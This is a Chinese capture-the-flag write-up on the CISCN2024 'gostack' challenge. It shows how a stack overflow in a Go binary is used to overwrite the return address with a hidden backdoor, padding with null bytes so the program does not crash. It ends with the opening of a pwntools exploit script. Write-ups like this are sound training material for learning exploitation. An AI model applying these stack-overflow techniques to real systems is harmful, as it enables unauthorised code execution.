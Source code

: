 ```python

p.interactive()
```

CISCN2024 gostack
=================

题目流程很简单，这个main\_main\_func2是个后门，但是main\_main\_func3永远返回0，所以正常情况下永远不会执行到后门。**所以如果能栈溢出，我们肯定是希望能够直接覆盖返回地址为后门就可以了**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-80f306d63646b6835d3764e7a52f313de36a7e4b.png)

可以看到main\_main\_func3中又有个for循环赋值，同时追溯v24的来源,如下，可以看到非常明显的栈溢出

```c
char *v24; // rdx
char v33[72]; // [rsp+48h] [rbp-1D0h] BYREF
char *v39; // [rsp+178h] [rbp-A0h]

v24 = v39;
v39 = v33;
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-102a17e6beca9863520bd09af7f03836cb7a3354.png)

bufio\_\_ptr\_Scanner\_Scan函数读取的字符串还是跟我上面说的一样，存到一个类似mmap出来的区域

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-9b7b32a5533e2e28c6582d51997a431988c915f7.png)

所以正常思路的payload应该是这样payload = b'a'\*0x1d0+p64(backdoor),但是会发现程序奇怪的崩掉了

追溯一下原因，**发现for循环赋值后还有别的函数要执行，那么把原本栈上的数据覆盖为a肯定会影响其他函数执行，在其他函数执行的时候程序就崩掉了，执行不到后门**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-8d8d5ae7fc16df749cdd8103a9b6dfab60d10ac0.png)

所以我采用了如下payload，payload = b'\\x00'\*0x1d0+p64(backdoor)，这就打通了。

**这样做的原因主要是根据经验，一般函数传参传入个null一般都没什么事，或者用一个可写地址覆盖也行，但这里我试了可写地址不行。所以用了这个方法。还有种更暴力的方法，直接看栈上每个地方存的数据，然后一个个换源，如果是个可写地址那就覆盖为bss就行**

- exp

```python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
from ctypes import *
from Crypto.Cipher import ARC4

context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/gostack")
# p=gdb.debug("/home/zp9080/PWN/gostack",'b *0x4A0A97')
# p=remote('0192d5d3be0f782ea43281dc0cf29672.3iz5.dg04.ciihw.cn',46453)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
# elf = ELF("/home/zp9080/PWN/gostack")
# libc=elf.libc 

#b *$rebase(0x14F5)
def dbg():
    gdb.attach(p,'b *0x4A0A41')
    pause()

```